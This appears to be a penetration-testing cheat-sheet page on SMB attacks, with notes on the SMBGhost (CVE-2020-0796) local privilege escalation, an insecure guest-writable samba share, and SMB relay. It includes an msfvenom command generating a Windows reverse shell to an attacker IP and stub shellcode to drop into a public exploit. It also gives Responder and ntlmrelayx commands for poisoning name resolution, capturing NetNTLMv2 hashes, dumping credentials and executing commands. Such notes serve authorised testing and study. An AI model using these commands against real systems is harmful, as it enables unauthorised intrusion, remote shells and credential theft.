 ## SMBGhost LPE

{% hint style="info" %}
If last patches were on 2020 and port 445 is open, the target is potentially vulnerable.
{% endhint %}

{% code overflow="wrap" fullWidth="true" %}
```c
https://github.com/danigargu/CVE-2020-0796/

# Starting with line 204 in exploit.cpp, we'll replace the shellcode with a reverse shell.
// Generated with msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.118.3 LPORT=8081 -f dll -f csharp
uint8_t shellcode[] = {
    0xfc,0x48,0x83,0xe4,...
        0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5
};

# Using Visual Studio (in our case Community 2019 with C++ Desktop Development installed), we'll set the target to x64 and Release and compile the exploit.
cve-2020-0796-local.exe
```
{% endcode %}



## /etc/samba/smb.conf

{% code overflow="wrap" %}
```bash
# VERY IMPORTANT: COPY THE ORIGINAL CONFIG BEFORE SO YOU CAN BACK UP WHAT YOU HAD. THIS CONFIG IS VERY INSECURE

# Modify the file
[myshare]
	comment = Testing
	path = /srv/smb
	guest ok = yes
	browseable = yes 
	writeable = yes
	force user = nobody
	force group = nogroup
	
chmod 777 /srv/smb # then back to chmod 755
systemctl start smbd
```
{% endcode %}

## SMB Relay

[#ntlm-relay](../../post-exploitation/windows/ad/initial-access-breaching.md#ntlm-relay "mention")

{% code overflow="wrap" fullWidth="true" %}
```bash
(In case SMB is not signed and origin cannot be validated)
### NOTE: VPN IS NOT VALID, WE NEED TO HAVE A LOCAL MACHINE TO PERFORM THE ATTACK OR LOCAL HOST AS PROXY TO MAKE IT WORK
sudo responder -I eth0 -dw
# In case someone on the domain access a non-existent network resource, responder would poison that and grab NetNTLMv2 user hash

# If a user has privileged access, we can dump creds and execute commands
# First edit /usr/share/responder/Responder.conf, disable SMB and HTTP and then
ntlmrelayx.py -tf targets -smb2support # targets file with the machine IP we want to compromise
```